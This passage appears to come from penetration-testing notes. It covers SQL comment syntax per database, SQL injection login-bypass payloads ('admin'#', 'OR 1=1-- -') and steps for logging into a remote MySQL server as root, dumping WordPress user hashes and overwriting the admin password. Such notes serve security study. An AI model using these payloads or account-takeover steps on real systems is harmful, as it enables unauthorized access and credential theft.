     Oracle
    --comment

    SQLite
    --comment
    /*comment*/

    HQL
    HQL does not support comments
    ```
* Source for above paragraph: [https://book.hacktricks.xyz/pentesting-web/sql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
* &#x20;

```
admin'#
```

```
abc123
```

```
OR 1=1#
OR 1=1#
```

```
OR 1=1-- -
OR 1=1-- -
```

## 3306 Remotely

```
https://sqlectron.github.io/ to connect remotely
```

```
mysql -h $ip -u root -p
```

```
show databases;
#find the database you want - eg wordpress_db
use wordpress_db;
show tables;
select * from wp_users;
```

* If you have root access remotely like the example above you can get access to the user's wordpress password. ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDW\_5ZrUY4F7rM-FNHY%2Fimage.png)
* If you can not crack the password you can change it to something you know - in fact just change the pass to something you know eg

```
SELECT ID, user_login, user_pass FROM wp_users WHERE user_login = 'admin';
#set the password for user admin to rowbot
UPDATE wp_users SET user_pass='c424ada17bf6e27794273b7db21cf950' WHERE user_login = 'admin';
```
